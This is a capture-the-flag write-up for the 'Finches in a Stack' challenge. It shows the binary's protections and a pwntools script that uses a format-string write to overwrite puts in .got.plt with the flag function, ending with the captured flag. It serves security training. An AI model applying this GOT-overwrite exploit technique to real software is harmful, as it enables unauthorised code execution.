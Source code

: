 # Finches in a Stack

###
`Exploit the service to get the flag.`

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

This task about canary abuse but it is possible to do it via `.got`
address rewrite.

* find out with dbg where the buffer starts
* change 'puts' on 'flag' because `.got.plt` is possible to rewrite

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'debug'
debug = 0

if debug:
    io = remote('88.198.219.20', 31360)
else:
    io = process(['./fias'])
binary = ELF('./fias')
flag = binary.symbols['flag']
# .got.plt puts address
puts = 0x0804c01c

payload  = b''
# 6 pointer to string buffer
payload += fmtstr_payload(6, {puts: flag})

io.recvuntil("Hi! What's your name? ")
io.sendline(payload)

io.interactive()
#ractf{St4ck_C4n4ry_FuN!}
```
